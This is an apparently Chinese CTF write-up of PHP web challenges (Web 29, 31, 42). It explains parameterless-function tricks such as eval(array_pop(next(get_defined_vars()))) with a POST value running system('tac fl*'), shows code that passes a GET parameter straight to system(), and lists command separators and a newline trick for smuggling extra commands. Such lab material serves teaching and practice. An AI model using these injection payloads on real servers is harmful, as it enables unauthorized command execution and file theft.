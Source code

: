 注意看：被过滤的是中文状态下的括号，而非英文

题目考察php无参数函数构造，即可以为`a(b());a();`等但不能为`a('b');`等

**（Web 29）（Web 31）：**

`?c=print_r(scandir(current(localeconv())));`

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`



**或者：（不懂的话 就看看下边的参考文章）**

`?c=eval(array_pop(next(get_defined_vars())));`

需要POST传入参数为1=system('tac fl*');

get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。

next()将内部指针指向数组中的下一个元素，并输出。

array_pop() 函数删除数组中的最后一个元素并返回其值。



### 题目的重点：**php无参数函数利用**

**参考：**[PHP无参数函数利用](https://blog.csdn.net/weixin_45785288/article/details/109259595)

无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a(‘b’)或a(‘b’,‘c’)，**不能带参数**





## Web 42

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    system($c . " >/dev/null 2>&1");
} else {
    highlight_file(__FILE__);
}
```

这行代码执行一个系统命令，该命令由变量 $c 的值指定。`>/dev/null 2>&1` 是一个 shell  重定向操作，意味着命令的标准输出（stdout）和标准错误（stderr）都被重定向到  /dev/null，即被丢弃，用户不会看到任何输出结果。

### 方法一：

 直接`/?c=cat flag.php`或者`cat flag.php%0a` 之后查看源代码

### 方法二：

使用 `";"、"||"、"&"、"&&" `分隔

>  ; //分号
>  | //只执行后面那条命令
>  || //只执行前面那条命令
>  & //两条命令都会执行
>  && //两条命令都会执行

